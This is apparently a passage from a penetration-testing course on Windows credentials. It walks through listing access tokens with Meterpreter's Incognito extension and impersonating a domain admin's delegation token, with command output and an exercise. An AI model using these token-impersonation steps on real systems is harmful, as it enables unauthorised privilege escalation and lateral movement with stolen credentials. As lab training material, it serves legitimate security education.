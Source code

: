 > Listing 45 - Loading Incognito extension

We'll focus on list\_tokens -u, which will list all currently used tokens by unique username:

```
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
corp1\admin
IIS APPPOOL\DefaultAppPool
NT AUTHORITY\IUSR
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
NT SERVICE\SQLTELEMETRY$SQLEXPRESS
Window Manager\DWM-1

Impersonation Tokens Available
========================================
NT AUTHORITY\ANONYMOUS LOGON
```

> Listing 46 - Dumping available tokens

The output reveals a delegation token for the domain user _admin_.

Next we'll run impersonate\_token to impersonate the _admin_ user through the Win32 _ImpersonateLoggedOnUser_[2](https://portal.offsec.com/courses/pen-300-9502/learning/windows-credentials-14692/windows-credentials-14820#fn-local_id_506-2) API. To invoke it, we must specify the user name of the token we want to impersonate:

```
meterpreter > impersonate_token corp1\\admin
[+] Delegation token available
[+] Successfully impersonated user corp1\admin

meterpreter > getuid
Server username: corp1\admin
```

> Listing 47 - Impersonating token for the user admin

Listing 47 shows that we were able to impersonate the domain user _admin_ from a delegation token, which will allow us to perform actions on this server and authenticate against remote computers in the context of that user.

With this approach, we have impersonated a user within a Meterpreter shell without writing to disk.

**Exercise**

1. Use a SYSTEM Meterpreter shell to list all tokens and impersonate a delegation token for the domain user _admin_.

1

(Rapid7, 2015), [https://github.com/rapid7/meterpreter/blob/master/source/extensions/incognito/incognito.c](https://github.com/rapid7/meterpreter/blob/master/source/extensions/incognito/incognito.c) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/windows-credentials-14692/windows-credentials-14820#fnref-local_id_506-1)
